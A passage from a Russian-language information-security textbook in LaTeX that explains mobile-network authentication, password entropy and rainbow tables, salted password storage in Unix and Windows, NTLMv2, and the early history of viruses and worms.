    \item $\textrm{SQN}_{\textrm{T}}, \textrm{SQN}_{\textrm{Ц}}$ -- 48-битовые счётчики для защиты от атак воспроизведения;
    \item $\textrm{AMF}$ -- 16-битовое значение окна для проверки синхронизации счётчиков;
    \item $CK, IK, AK$ -- 128-битовые ключи шифрования данных $CK$, кода аутентификации данных $IK$, гаммы значения счётчика $AK$;
    \item $\MAC, \textrm{XMAC}$ -- 128-битовые аутентификаторы центра SIM-карте;
    \item $\textrm{RES}, \textrm{XRES}$ -- 128-битовые аутентификаторы SIM-карты центру;
    \item $\textrm{AUTN}$ -- вектор аутентификации.
\end{itemize}

Алгоритмы $fi$ не фиксированы стандартом и выбираются при реализациях.

Из оставшихся недостатков защиты персональных данных можно перечислить.
\begin{enumerate}
    \item Уникальный идентификатор SIM-карты IMSI по-прежнему передаётся в открытом виде, что позволяет идентифицировать абонентов по началу сеанса регистрации SIM-карты в сети.
    \item Шифрование и аутентификация производятся только между телефоном и базовой станцией, а не между двумя телефонами. Это является необходимым условием для подключения СОРМ (Система технических средств для обеспечения функций оперативно-розыскных мероприятий) по закону <<О связи>>. С другой стороны, это повышает риск нарушения конфиденциальности персональных данных.
    \item Алгоритм шифрования данных A5/3 (KASUMI) на 128-битовом ключе теоретически взламывается атакой на основе известного открытого текста для 64 MB данных с использованием 1 GiB памяти $2^{32}$ операциями (2 часа на обычном ПК).
\end{enumerate}


%\section{Беспроводная сеть Wi-Fi}
%\subsection{WPA-PSK2, 802.11n, Radix?}
%\subsection{Wimax 802.16(?)}

\chapter{Аутентификация пользователя}


\section{Многофакторная аутентификация}

Для защищённых приложений применяется \emph{многофакторная} аутентификация одновременно по факторам различной природы:
\begin{enumerate}
    \item Свойство, которым обладает субъект. Например: биометрия, природные уникальные отличия (лицо, радужная оболочка глаз, папиллярные узоры, последовательность ДНК).
    \item Знание -- информация, которую знает субъект. Например: пароль, PIN (Personal Identification Number).
    \item Владение -- вещь, которой обладает субъект. Например: электронная или магнитная карта, флэш-память.
%    \item Факторы присвоения. Например, номер машины, RFID-метка.
\end{enumerate}

В обычных массовых приложениях из-за удобства использования применяется аутентификация только по \emph{паролю}\index{пароль}, который является общим секретом пользователя и информационной системы. Биометрическая аутентификация по отпечаткам пальцев применяется существенно реже. Как правило, аутентификация по отпечаткам пальцев является дополнительным, а не вторым обязательным фактором (тоже из-за удобства её использования).

%Так же явно или неявно используется аутентификация по факторам:
%\begin{enumerate}
%    \item Социальная сеть. Доверие к индивидууму в личном или интернет общении, на основании общих связей.
%    \item Географическое положение. Например, для проверки оплаты товаров по кредитной карте.
%    \item Время. Доступ к сервисам или местам только в определённое время.
%    \item И др.
%\end{enumerate}


\section[Энтропия и криптостойкость паролей]{Энтропия и криптостойкость \protect\\ паролей}

Стандартный набор символов паролей, которые можно набрать на клавиатуре, используя английские буквы и небуквенные символы, состоит из $D=94$ символов. При длине пароля $L$ символов и предположении равновероятного использования символов энтропия паролей равна
    \[ H = L \log_2 D. \]

Клод Шеннон, исследуя энтропию символов английского текста, изучал вероятность успешного предсказания людьми следующего символа по первым нескольким символам слов или текста. В результате Шеннон получил оценку энтропии первого символа $s_1$ текста порядка $H(s_1) \approx 4{,}6$--$4{,}7$ бит/символ и оценки энтропий последующих символов, постепенно уменьшающиеся до $H(s_9) \approx 1{,}5$ бит/символ для 9-го символа. Энтропия для длинных текстов литературных произведений получила оценку $H(s_\infty) \approx 0{,}4$ бит/символ.

Статистические исследования баз паролей показывают, что наиболее часто используются буквы <<a>>, <<e>>, <<o>>, <<r>> и цифра <<1>>.

NIST (Национальный институт стандартов и технологий США, \langen{National Institute of Standards and Technology})  использует следующие рекомендации для оценки энтропии паролей\index{энтропия!пароля}, создаваемых людьми.
\begin{enumerate}
    \item Энтропия первого символа $H(s_1) = 4$ бит/символ.
    \item Энтропия со 2-го по 8-й символы $H(s_{i}) = 2$ бит/символ, $2 \leq i \leq 8$.
    \item Энтропия с 9-го по 20-й символы $H(s_{i}) = 1{,}5$ бит/символ, $9 \leq i \leq 20$.
    \item Энтропия с 21-го символа $H(s_{i}) = 1$ бит/символ, $i \geq 21$.
    \item Проверка композиции на использование символов разных регистров и небуквенных символов добавляет до 6-ти бит энтропии пароля.
    \item Словарная проверка на слова и часто используемые пароли добавляет до 6 бит энтропии для коротких паролей. Для 20-символьных и более длинных паролей прибавка к энтропии -- 0 бит.
\end{enumerate}

Для оценки энтропии пароля нужно сложить энтропии символов $H(s_i)$ и сделать дополнительные надбавки, если пароль удовлетворяет тестам на композицию и отсутствует в словаре.

\begin{table}[!ht]
    \caption{Оценка NIST предполагаемой энтропии паролей\label{tab:password-entropy}}
    \resizebox{\textwidth}{!}{ \begin{tabular}{|c||c|c|c||c|}
        \hline
        \multirow{2}{*}{\parbox{1.5cm}{\medskip \centering Длина пароля, символы}} & \multicolumn{3}{|c||}{\parbox{6cm}{\centering Энтропия паролей пользователей по критериям NIST}} & \multirow{2}{*}{\parbox{3cm}{\centering Энтропия случайных равновероятных паролей}} \\
        \cline{2-4}
        & \parbox{1.5cm}{\centering Без проверок} & \parbox{2cm}{\centering Словарная проверка} & \parbox{3cm}{\centering Словарная и композиционная проверка} & \\
        \hline
        4  & 10 & 14 & 16 & 26.3 \\
        6  & 14 & 20 & 23 & 39.5 \\
        8  & 18 & 24 & 30 & 52.7 \\
        10 & 21 & 26 & 32 & 65.9 \\
        12 & 24 & 28 & 34 & 79.0 \\
        16 & 30 & 32 & 38 & 105.4 \\
        20 & 36 & 36 & 42 & 131.7 \\
        24 & 40 & 40 & 46 & 158.0 \\
        30 & 46 & 46 & 52 & 197.2 \\
        40 & 56 & 56 & 62 & 263.4 \\
        \hline
    \end{tabular} }
\end{table}

В таблице~\ref{tab:password-entropy} приведена оценка NIST на величину энтропии пользовательских паролей в зависимости от их длины, и приведено сравнение с энтропией случайных паролей с равномерным распределением символов из набора в $D=94$ символов клавиатуры. Вероятное число попыток для подбора пароля составляет $O(2^H)$. Из таблицы видно, что по критериям NIST энтропия реальных паролей в 2--4 раза меньше энтропии случайных паролей с равномерным распределением символов.

\example
Оценим общее количество существующих паролей. Население Земли -- 7 млрд. Предположим, что всё население использует компьютеры и Интернет, и у каждого человека по 10 паролей. Общее количество существующих паролей -- $7 \cdot 10^{10} \approx 2^{36}$.

Имея доступ к наиболее массовым интернет-сервисам с количеством пользователей десятки и сотни миллионов, в которых пароли часто хранятся в открытом виде из-за необходимости обновления ПО и, в частности, выполнения аутентификации, мы:
\begin{enumerate}
	\item имеем базу паролей, покрывающую существенную часть пользователей; 
	\item можем статистически построить правила генерирования паролей.
\end{enumerate}

Даже если пароль хранится в защищённом виде, то при вводе пароль, как правило, в открытом виде пересылается по Интернету, и все преобразования пароля для аутентификации осуществляет интернет-сервис, а не веб-браузер. Следовательно, интернет-сервис имеет доступ к исходному паролю.
\exampleend

В 2002 г. был подобран ключ для 64-битного блочного шифра RC5 сетью персональных компьютеров \texttt{distributed.net}, выполнявших вычисления в фоновом режиме. Суммарное время вычислений всех компьютеров -- 1757 дней, было проверено 83\% пространства всех ключей. Это означает, что пароли с оценочной энтропией менее 64 бит, то есть \emph{все пароли} до 40 символов по критериям NIST, могут быть подобраны в настоящее время. Конечно, с оговорками на то, что 1) нет ограничений на количество и частоту попыток аутентификаций, 2) алгоритм генерации вероятных паролей эффективен.

Строго говоря, использование даже 40-символьного пароля для аутентификации или в качестве ключа блочного шифрования является небезопасным.


\subsubsection{Число паролей}

Приведём различные оценки числа паролей, создаваемых людьми. Чаще всего такие пароли основаны на словах или закономерностях естественного языка. В английском языке всего около $1\ 000\ 000 \approx 2^{20}$ слов, включая термины.

%http://www.springerlink.com/content/bh216312577r6w64/fulltext.pdf
%http://www.antimoon.com/forum/2004/4797.htm

Используемые слоги английского языка имеют вид V, CV, VC, CVV, VCC, CVC, CCV, CVCC, CVCCC, CCVCC, CCCVCC, где C -- согласная (consonant), V -- гласная (vowel). 70\% слогов имеют структуру VC или CVC. Общее число слогов $S = 8000 \dots 12000$. Средняя длина слога -- 3 буквы.

Предполагая равновероятное распределение всех слогов английского языка, для числа паролей из $r$ слогов получим верхнюю оценку
    \[ N_1 = S^r = 2^{13 r} \approx 2^{4.3 L_1}. \]
Средняя длина паролей составит:
    \[ L_1 \approx 3 r. \]

Теперь предположим, что пароли могут состоять только из 2--3 буквенных слогов вида CV, VC, CVV, VCC, CVC, CCV с равновероятным распределением символов. Подсчитаем число паролей $N_2$, которые могут быть построены из $r$ таких слогов. В английском алфавите число гласных букв $n_v = 10, согласных n_c = 16, n = n_v + n_c = 26$. Верхняя оценка числа $r$-слоговых паролей:
    \[ N_2 = (n_c n_v + n_v n_c + n_c n_v n_v + n_v n_c n_c + n_c n_v n_c + n_c n_c n_v)^r \approx \]
        \[ \approx \left( n_c n_v(3 n_c + n_v) \right)^r, \]
    \[ N_2 \approx \left( \frac{n^3}{2} \right)^r \approx 2^{13 r} \approx 2^{4.3 L_2}. \]
Средняя длина паролей:
    \[ L_2 = \frac{n_c n_v(2 + 2 + 3 n_v + 3 n_c + 3 n_c + 3 n_c)}{n_c n_v (1 + 1 + n_v + n_c + n_c + n_c)} \cdot r \approx 3 r. \]

Как видно, в обоих предположениях получились одинаковые оценки для числа и длины паролей.

Подсчитаем верхние оценки числа паролей из $L$ символов, предполагая равномерное распределение символов из алфавита мощностью $D$ символов: a) $D_1 = 26$ строчных букв, б) все $D_2 = 94$ печатных символа клавиатуры (латиница и небуквенные символы):
    \[ N_3 = D_1^L \approx 2^{4.7 L}, \]
    \[ N_4 = D_2^L \approx 2^{6.6 L}. \]

\begin{table}[!ht]
    \caption{Различные верхние оценки числа паролей\label{tab:password-number}}
    \resizebox{\textwidth}{!}{ \begin{tabular}{|c||c|c|c|}
        \hline
        \multirow{2}{*}{\parbox{1.5cm}{\medskip\medspace \centering Длина пароля}} & \multicolumn{3}{|c|}{Число паролей} \\
        \cline{2-4}
            & \parbox{3.5cm}{\medspace \centering На основе слоговой композиции} &
            \parbox{3cm}{\medspace\centering Алфавит $D=26$ символов} &
            \parbox{3cm}{\medspace \centering Алфавит $D=94$ символа} \\
        \hline
        \rule{0pt}{2.5ex}$6$  & $2^{26}$ & $2^{28}$ & $2^{39}$ \\
        9  & $2^{39}$ & $2^{42}$ & $2^{59}$ \\
        12 & $2^{52}$ & $2^{56}$ & $2^{79}$ \\
        15 & $2^{65}$ & $2^{71}$ & $2^{98}$ \\
        \hline
        \rule{0pt}{2.5ex} 21 & $2^{91}$ & $2^{99}$ & $2^{137}$ \\
        \hline
        \rule{0pt}{2.5ex} 39 & $2^{169}$ & $2^{183}$ & $2^{256}$ \\
        \hline
    \end{tabular} }
\end{table}

Из таблицы~\ref{tab:password-number} видно, что при доступном объёме вычислений в $2^{60}$\,--\,$2^{70}$ операций, пароли вплоть до 15-ти символов, построенные на словах, слогах, изменениях слов, вставках цифр, небольшом изменении регистров и других простейших модификациях, в настоящее время могут быть найдены полным перебором как на вычислительном кластере, так и на персональном компьютере.

Для достижения криптостойкости паролей, сравнимой со 128- или 256-битовым секретным ключом, требуется выбирать пароль из 20 и 40 символов соответственно, что, как правило, не реализуется из-за сложности запоминания и возможных ошибок при вводе.


%Подсчитаем число паролей $N_1$, которые могут могут построены из $r$ ~ 2-3 буквенных слогов: $cv, vc, ccv, cvc, vcc$, где $c$ -- согласная, $v$ -- гласная. В английском алфавите $n_v = 10, n_c = 16, n = n_v + n_c = 26$. Число паролей
%    \[ N_1 = \left( n_v n_c (1 + 1 + n_c + n_c + n_c) \right)^r \approx 3^r n_v^r n_c^{2r}. \]
%Средняя длина паролей
%    \[ L = r \left( \frac{2 + 2 + 3 n_c + 3 n_c + 3 n_c}{1 + 1 + n_c + n_c + n_c} \right) \approx 3r. \]
%
%%Учтем, что $b \leq r$ символов могут быть заглавными: $N_1 \rightarrow N_2 < N_1 \binom{L}{b} \left( \frac{n}{n_v} \right)^b$. Вставим $d$ цифр в случайные места: $N_2 \rightarrow N_3 = N_2 (10 (1 + L))^d \approx N_2 (10 L)^d$.
%%
%%Общее число паролей
%%    \[ N = N_3 = 3^r 10^r 16^{2r} \binom{3r}{b} 2.6^b \left(10 \cdot 3 r \right)^d. \]
%%
%%\begin{table}[!ht]
%%    \centering
%%    \small
%%    \begin{tabular}{|c|c|c|c|c||cr|}
%%        \hline
%%        \parbox{1.3cm}{Слогов, $r$} & \parbox{1.8cm}{Заглавных букв, $b$} & \parbox{1.5cm}{Вставок цифр, $d$} & \parbox{2.8cm}{Средняя длина пароля, $L+d$} & \parbox{3cm}{Верхняя оценка числа паролей $N$} & \multicolumn{2}{|c|}{\parbox{3.2cm}{Число всех паролей}} \\
%%        \hline
%%        $2$ & $0$ & $0$ & $6$ & $2^{26}$ & $2^{36}$ & a-z \\
%%        $2$ & $2$ & $0$ & $6$ & $2^{32}$ & $2^{48}$ & A-Z, a-z \\
%%        $2$ & $2$ & $2$ & $8$ & $2^{45}$ & $2^{48}$ & A-Z, a-z, 0-9 \\
%%        \hline
%%        $3$ & $0$ & $0$ & $9$ & $2^{39}$ & $2^{54}$ & a-z \\
%%        $3$ & $3$ & $0$ & $9$ & $2^{49}$ & $2^{54}$ & A-Z, a-z \\
%%        $3$ & $3$ & $2$ & $11$ & $2^{63}$ & $2^{65}$ & A-Z, a-z, 0-9 \\
%%        \hline
%%        $4$ & $0$ & $0$ & $12$ & $2^{52}$ & $2^{93}$ & a-z \\
%%        $4$ & $3$ & $0$ & $12$ & $2^{64}$ & $2^{186}$ & A-Z, a-z \\
%%        $4$ & $3$ & $2$ & $14$ & $2^{78}$ & $2^{222}$ & A-Z, a-z, 0-9 \\
%%        \hline
%%    \end{tabular}
%%    \caption{Сравнение верхней оценки числа паролей, построенных на слогах, со всем доступным множеством паролей.}
%%    \label{tab:password-number}
%%\end{table}
%
%Учтем, что $b$ символов в пароле могут быть взяты не из 26-символьного алфавита строчных букв, а из всего алфавита в $D=94$ печатных символа клавиатуры (латиница и небуквенные символы):
%\[
%    \begin{array}{ll}
%    b=1 & N_1 \rightarrow N_2 = \frac{n_v}{n_v+n_c} 3^r n_v^{r-1} n_c^{2r} \cdot L. \]
%
%    \[ N_1 \rightarrow N_2 < N_1 \binom{L}{b} \left( \frac{D}{n_v} \right)^b. \]
%
%
%
%Общее число паролей
%    \[ N < 3^r n_v^r n_c^{2r} \binom{L}{b} \left( \frac{D}{n_v} \right)^b = 3^r 10^r 16^{2r} \binom{3r}{b} \left( \frac{94}{10} \right)^b. \]
%
%\begin{table}[!ht]
%    \centering
%    \small
%    \begin{tabular}{|c|c|c|c||cr|}
%        \hline
%        \parbox{1.5cm}{Слогов, $r$} & \parbox{3cm}{Средняя длина пароля, $L$} & \parbox{3cm}{Символов из всего алфавита, $b$} & \parbox{3cm}{Верхняя оценка числа паролей $N$} & \multicolumn{2}{|c|}{\parbox{3.2cm}{Число всех паролей, $D^L$}} \\
%        \hline
%        \multirow{3}{*}{2} & \multirow{3}{*}{6} & $0$ & $2^{26}$ & $2^{28}$ & a-z \\
%        & & $1$ & $2^{32}$ & $2^{34}$ & A-Z, a-z \\
%        & & $3$ & $2^{40}$ & $2^{39}$ & Весь алфавит \\
%        \hline
%        \multirow{3}{*}{3} & \multirow{3}{*}{9} & $0$ & $2^{39}$ & $2^{42}$ & a-z \\
%        & & $2$ & $2^{50}$ & $2^{51}$ & A-Z, a-z \\
%        & & $4$ & $2^{59}$ & $2^{59}$ & Весь алфавит \\
%        \hline
%        \multirow{3}{*}{4} & \multirow{3}{*}{12} & $0$ & $2^{52}$ & $2^{56}$ & a-z \\
%        & & $3$ & $2^{69}$ & $2^{68}$ & A-Z, a-z \\
%        & & $6$ & $2^{81}$ & $2^{77}$ & Весь алфавит \\
%        \hline
%    \end{tabular}
%    \caption{Сравнение верхней оценки числа паролей, построенных на слогах, со всем доступным множеством паролей в алфавите из $D$ символов.}
%    \label{tab:password-number}
%\end{table}
%
%Из таблицы~\ref{tab:password-number} видно, что при доступном объёме вычислений в $2^{60 \ldots 70}$ операций, пароли вплоть до 12 символов, построенные на словах, слогах, изменениях слов, вставках цифр, небольшого изменения регистров и другой простейшей обфускации, могут быть найдены перебором на кластере (или ПК) в настоящее время.


\subsubsection{Атака для подбора паролей и ключей шифрования}

В схемах аутентификации по паролю иногда используется хэширование и хранение хэша пароля на сервере. В таких случаях применима словарная атака или атака с применением заранее вычисленных таблиц для ускорения поиска.

Для нахождения пароля, прообраза хэш-функции, или для нахождения ключа блочного шифрования по атаке с выбранным шифртекстом (для одного и того же известного открытого текста и соответствующего шифртекста) может быть применён метод перебора с балансом между памятью и временем вычислений. Самый быстрый метод радужных таблиц\index{радужные таблицы} (\langen{rainbow tables}, 2003~г., \cite{Oechslin:2003}) заранее вычисляет следующие цепочки и хранит результат в памяти.

Для нахождения пароля, прообраза хэш-функции $H$, цепочка строится как
    \[ M_0 \xrightarrow{H(M_0)} h_0 \xrightarrow{R_0(h_0)} M_1 \ldots M_t \xrightarrow{H(M_t)} h_t \xrightarrow{R_t(h_t)} M_{t+1}, \]
где $R_i(h)$ -- функция редуцирования, преобразования хэша в пароль для следующего хэширования.

Для нахождения ключа блочного шифрования для одного и того же известного открытого текста $M$ таблица строится как
    \[ K_0 \xrightarrow{E_{K_0}(M)} c_0 \xrightarrow{R_0(c_0)} K_1 \ldots K_t \xrightarrow{E_{K_t}(M)} c_t \xrightarrow{R_t(c_t)} K_{t+1}, \]
где $R_i(c)$ -- функция редуцирования, преобразования шифртекста в новый ключ.

Функция редуцирования $R_i$ зависит от номера итерации, чтобы избежать дублирующихся подцепочек, которые возникают в случае коллизий между значениями в разных цепочках в разных итерациях, если $R$ постоянна. Радужная таблица размера $(m \times 2)$ состоит из строк $(M_{0,j}, M_{t+1,j})$ или $(K_{0,j}, K_{t+1,j})$, вычисленных для разных значений стартовых паролей $M_{0,j}$ или $K_{0,j}$ соответственно.

Опишем атаку на примере нахождения прообраза $\overline{M}$ хэша $\overline{h} = H(\overline{M})$. На первой итерации исходный хэш $\overline{h}$ редуцируется в сообщение $\overline{h} \xrightarrow{R_t(\overline{h})} \overline{M}_{t+1} $ и сравнивается со всеми значениями последнего столбца $M_{t+1,j}$ таблицы. Если нет совпадения, переходим ко второй итерации. Хэш $\overline{h}$ дважды редуцируется в сообщение $\overline{h} \xrightarrow{R_{t-1}(\overline{h})} \overline{M}_t \xrightarrow{H(\overline{M}_t)} \overline{h}_t \xrightarrow{R_t(\overline{h}_t)} \overline{M}_{t+1}$ и сравнивается со всеми значениями последнего столбца $M_{t+1,j}$ таблицы. Если не совпало, то переходим к третьей итерации и~т.\,д. Если для $r$-кратного редуцирования сообщение $\overline{M}_{t+1}$ содержится в таблице во втором столбце, то из совпавшей строки берётся $M_{0,j}$, и вся цепочка пробегается заново для поиска искомого сообщения $\overline{M}: ~ \overline{h} = H(\overline{M})$.

Найдём вероятность нахождения пароля в таблице. Пусть мощность множества всех паролей равна $N$. Изначально в столбце $M_{0,j}$ содержится $m_0 = m$ различных паролей. Предполагая наличие случайного отображения с пересечениями паролей $M_{0,j} \rightarrow M_{1,j}$, в $M_{1,j}$ будет $m_1$ различных паролей. Согласно задаче о размещении,
\[
    m_{i+1} = N \left( 1 - \left( 1 - \frac{1}{N} \right)^{m_i} \right) \approx N \left( 1 - e^{-\frac{m_i}{N}} \right).
\]
Вероятность нахождения пароля:
\[
    P = 1 - \prod \limits_{i=1}^t \left( 1 - \frac{m_i}{N} \right).
\]

Чем больше таблица из $m$ строк, тем больше шансов найти пароль или ключ, выполнив в наихудшем случае   $O \left( m \frac{t(t+1)}{2} \right)$ операций.

Примеры применения атаки на хэш-функциях $\textrm{MD5}$\index{хэш-функция!MD5}, $\textrm{LM} \sim \textrm{DES}_{\textrm{Password}} (\textrm{const})$ приведены в таблице~\ref{tab:rainbow-tables}.

\begin{table}[!ht]
    \centering
    \caption{Атаки на радужных таблицах на \emph{одном} ПК\label{tab:rainbow-tables}}
    \resizebox{\textwidth}{!}{ \begin{tabular}{|c|c|c|c|c|c|c|}
        \hline
        \multirow{2}{*}{\parbox{1.0cm}{\medskip\medskip \centering Длина, биты}} & \multicolumn{3}{|c|}{\parbox{4.3cm}{\medspace\centering Пароль или ключ}} &
            \multicolumn{3}{|c|}{\parbox{4.33cm}{\medspace\centering Радужная таблица}} \\
        \cline{2-7}
        & \parbox{1.0cm}{\centering Длина,\\ симв.} & \parbox{1.7cm}{\centering Множество} & \parbox{1.7cm}{\centering Мощность} &
            \parbox{1cm}{\centering Объём} & \parbox{2.23cm}{\medspace \centering Время вычисления таблиц} & \parbox{1.1cm}{\centering Время поиска} \\
        \hline \hline
        \multicolumn{7}{|c|}{Хэш LM} \\
        \hline
        \rule{0pt}{2.5ex}\multirow{3}{*}{$2 \times 56$} & \multirow{3}{*}{14} &
            A--Z & $2^{33}$ & 610 MB &  & 6 с \\
        & & A--Z, 0-9 & $2^{36}$ & 3 GB &  & 15 с \\
        & & все & $2^{43}$ & 64 GB & \parbox{2.23cm}{несколько лет} & 7 мин \\
        \hline \hline
        \multicolumn{7}{|c|}{Хэш MD5} \\
        \hline
        \rule{0pt}{2.5ex} 128 & 8 & A-Z, 0-9 & $2^{41}$ & 36 GiB & - & 4 мин \\
        \hline
    \end{tabular} }
\end{table}

\section{Аутентификация по паролю}

Из-за малой энтропии пользовательских паролей во всех системах регистрации и аутентификации пользователей применяется специальная политика безопасности. Типичные минимальные требования:
\begin{enumerate}
    \item Длина пароля от 8 символов. Использование разных регистров и небуквенных символов в паролях. Запрет паролей из словаря или часто используемых паролей. Запрет паролей в виде дат, номеров машин и других номеров.
    \item Ограниченное время действия пароля. Обязательная смена пароля по истечении срока действия.
    \item Блокирование возможности аутентификации после нескольких неудачных попыток. Ограниченное число актов аутентификации в единицу времени. Временная задержка перед выдачей результата аутентификации.
\end{enumerate}

Дополнительные меры предосторожности для пользователей:
\begin{enumerate}
    \item Не использовать одинаковые или похожие пароли для разных систем, таких как электронная почта, вход в ОС, электронная платёжная система, форумы, социальные сети. Пароль часто передаётся в открытом виде по сети. Пароль доступен администратору системы, возможны утечки конфиденциальной информации с серверов. Поэтому следует стараться выбирать случайные стойкие пароли.
    \item Не записывать пароли. Никому не сообщать пароль, даже администратору. Не передавать пароли по почте, телефону, Интернету и~т.\,д.
    \item Не использовать одну и ту же учётную запись для разных пользователей, даже в виде исключения.
    \item Всегда блокировать компьютер, когда пользователь отлучается от него, даже на короткое время.
\end{enumerate}

\section[Пароли и аутентификация в ОС]{Хранение паролей и \protect\\ аутентификация в ОС}
\selectlanguage{russian}

Для усложнения подбора пароля и защиты от словарной атаки перед процедурой хэширования к паролю добавляется <<соль>> -- случайная битовая строка. \emph{<<Солью>>} (salt)\index{соль} называется (псевдо)случайная битовая строка $s$, добавляемая к аргументу $m$ (паролю) функции хэширования $h(m)$ для рандомизации хэширования одинаковых сообщений.

\emph{Словарная} атака заключается в том, что злоумышленник один раз заранее вычисляет таблицы хэшей от наиболее \emph{вероятных} сообщений, то есть составляет словарь пароль-хэш, и далее производит поиск по вычисленной таблице для взламывания исходного сообщения. Ранее словарные атаки использовались для взлома паролей $m$, которые хранились в виде обычных хэшей $h(m)$. Усовершенствованной словарной атакой является метод радужных таблиц, позволяющий практически взламывать хэши длиной до 64--128 бит. Использование <<соли>> делает невозможной словарную атаку, так как значение функции вычисляется уже не от оригинального пароля, а от конкатенации <<соли>> и пароля.

<<Соль>> может храниться как отдельное значение, единственное и уникальное для системы целиком, так и быть уникальной для каждого сохранённого пароля и храниться со значением функции хэширования:
\begin{itemize}
	\item $s ~\|~ h(s ~\|~ m)$;
	\item $s ~\|~ h(m ~\|~ s)$;
	\item $s_1 ~\|~ h(m ~\|~ s_1 ~\|~ s_2)$.
\end{itemize}

В первом случае функция хэширования вычисляется от конкатенации (склеивания) <<соли>> и пароля пользователя. Во втором случае в строке сначала идёт пароль, а потом -- <<соль>>. Это позволяет немного усложнить задачу злоумышленнику при переборе паролей (он не сможет сократить время вычисления значения функции хэширования за счёт одинакового префикса у всех аргументов функции хэширования). В третьем случае используется сразу две <<соли>>: одна хранится вместе с паролем, а вторая выступает внешним параметром, хранящимся отдельно от базы данных паролей.

В рассмотренной ранее модели построения паролей в виде слогов с элементами небольшой модификации мы получили количество паролей около $2^{70}$ для 12-символьных паролей. Данный объём вычислений уже почти достижим. Следовательно, даже <<соль>> не защищает пароли от взлома, если у злоумышленника есть доступ к файлу с паролями или возможность неограниченных попыток аутентификации. Поэтому файлы с паролями дополнительно защищаются, а в системы аутентификации по паролю вводят ограничения на неуспешные попытки аутентификации.

\subsection[Unix]{Хранение паролей в Unix}

В ОС Unix пароль $m$ пользователя хранится в файле \texttt{/etc/shadow} в виде хэша (SHA, MD5 и~т.~д.) или результата шифрования (DES, Blowfish и~т.~д.), вычисленного с <<солью>> $s$ длиной от 2 (для функции crypt в оригинальной ОС UNIX) до 16 (для Blowfish в OpenBSD) ASCII-символов. То, как используется <<соль>>, зависит от используемого алгоритма. Например, в традиционном алгоритме, используемом в оригинальном UNIX, <<соль>> модифицирует s-блоки и p-блоки в протоколе DES.

Файл \texttt{/etc/shadow} доступен только привилегированным процессам, что вносит дополнительную защиту.


\subsection[Windows]{Хранение паролей и аутентификация в \protect\\ Windows}

%[MS-NLMP]: NT LAN Manager (NTLM) Authentication Protocol Specification -- 09/25/2009, Rev. 11.0
%http://blogs.technet.com/authentication/archive/2006/04/07/ntlm-s-time-has-passed.aspx
%http://technet.microsoft.com/en-us/library/cc755284(WS.10).aspx -- Windows Authentication, Updated: February 7, 2008
%http://207.46.16.252/en-us/magazine/2006.08.securitywatch.aspx - The Most Misunderstood Windows Security Setting of All Time, Jesper Johansson
%http://en.wikipedia.org/wiki/NTLM
%http://www.windowsnetworking.com/nt/atips/atips92.shtml

ОС Windows, начиная с Vista, Server 2008, Windows 7, сохраняет пароли в виде NT-хэша, который вычисляется как 128-битовый хэш MD4 от пароля в Unicode кодировке. NT-хэш не использует <<соль>>, поэтому применима словарная атака. На словарной атаке основаны программы поиска (взлома) паролей для Windows. Файл паролей называется SAM (\langen{Security Account Manager}) в случае локальной аутентификации. Если пароли хранятся на сетевом сервере, то они хранятся в специальном файле, доступ к которому ограничен.

В последнем протоколе аутентификации NTLMv2\index{протокол!NTLM}\index{протокол!NTLMv2}~\cite{MS-NLMP} пользователь для входа в свой компьютер аутентифицируется либо локально на компьютере, либо удалённым сервером, если учётная запись пользователя хранится на сервере. Пользователь с именем $user$ вводит пароль в программу-\emph{клиент}, которая, взаимодействуя с программой-\emph{сервером} (локальной или удалённой на сервере домена $domain$), аутентифицирует пользователя для входа в систему.
\begin{enumerate}
    \item Клиент $\rightarrow$ Сервер: запрос аутентификации.
    \item Клиент $\leftarrow$ Сервер: 64-битовая псевдослучайная одноразовая метка $n_s$.
    \item Вводимый пользователем пароль хэшируется в $\textrm{NThash}$ без <<соли>>. Клиент генерирует 64-битовую псевдослучайную одноразовую метку $n_c$, создаёт метку времени $ts$. Далее вычисляются 128-битовые имитовставки\index{имитовставка} $\HMAC$ на хэш-функции MD5 с ключами $\textrm{NT-hash}$ и $\textrm{NTOWF}$:
        \[ \textrm{NThash} = \text{MD4}(\text{Unicode}(\text{пароль})), \]
        \[ \textrm{NTOWF} = \textrm{HMAC-MD5}_{\textrm{NThash}}(user, domain), \]
        %\[ \text{LMv2-response} = \text{HMAC-MD5}_{\text{NTLMv2-hash}}(n_c, n_s), \]
        \[ \textrm{NTLMv2-response} = \textrm{HMAC-MD5}_{\textrm{NTOWF}}(n_c, n_s, ts, domain). \]
    \item Клиент $\rightarrow$ Сервер: $(n_c, \textrm{NTLMv2-response})$. %LMv2-response,
    \item Сервер для указанных имён пользователя и домена извлекает из базы паролей требуемый NT-hash, производит аналогичные вычисления и сравнивает значения имитовставок. Если они совпадают, аутентификация успешна.
\end{enumerate}

В случае аутентификации на локальном компьютере сравниваются значения $\textrm{NTOWF}$: вычисленные от пароля пользователя и извлечённые из файла паролей SAM.

Как видно, протокол аутентификации NTLMv2 обеспечивает одностороннюю аутентификацию пользователя серверу (или своему ПК).

При удалённой аутентификации по сети последние версии Windows используют протокол Kerberos, который обеспечивает взаимную аутентификацию, и, только если аутентификация по Kerberos не поддерживается клиентом или сервером, она происходит по NTLMv2.


\input{http_auth}

\chapter{Программные уязвимости}

\input{security_models}

\input{os_access_controls}

\section{Виды программных уязвимостей}

\emph{Вирусом} называется самовоспроизводящаяся часть кода (подпрограмма)\index{вирус}, которая встраивается в носители (другие программы) для своего исполнения и распространения. Вирус не может исполняться и передаваться без своего носителя.

\emph{Червём} называется самовоспроизводящаяся отдельная (под)программа\index{червь}, которая может исполняться и распространяться самостоятельно, не используя программу-носитель.

Первой вехой в изучении компьютерных вирусов можно назвать 1949 год, когда Джон фон Нейман прочёл курс лекций в Университете Иллинойса под названием <<Теория самовоспроизводящихся машин>> (изданы в 1966~\cite{Neumann:1966}, переведены на русский язык издательством <<Мир>> в 1971 году~\cite{Neumann:1971}), в котором ввёл понятие самовоспроизводящихся механических машин. Первым сетевым вирусом считается вирус Creeper 1971 г., распространявшийся в сети ARPANET, предшественнице Интернета. Для его уничтожения был создан первый антивирус Reaper, который находил и уничтожал Creeper.

Первый червь для Интернета, червь Морриса, 1988 г., уже использовал \emph{смешанные} атаки\index{атака!смешанная} для заражения UNIX машин~\cite{EichinRochlis:1988, Spafford:1989}. Сначала программа получала доступ к удалённому запуску команд, эксплуатируя уязвимости в сервисах \texttt{sendmail}, \texttt{finger} (с использованием атаки на переполнение буфера) или \texttt{rsh}. Далее, с помощью механизма подбора паролей червь получал доступ к локальным аккаунтам пользователей:
\begin{itemize}
    \item получение доступа к учётным записям с очевидными паролями:
		\begin{itemize}
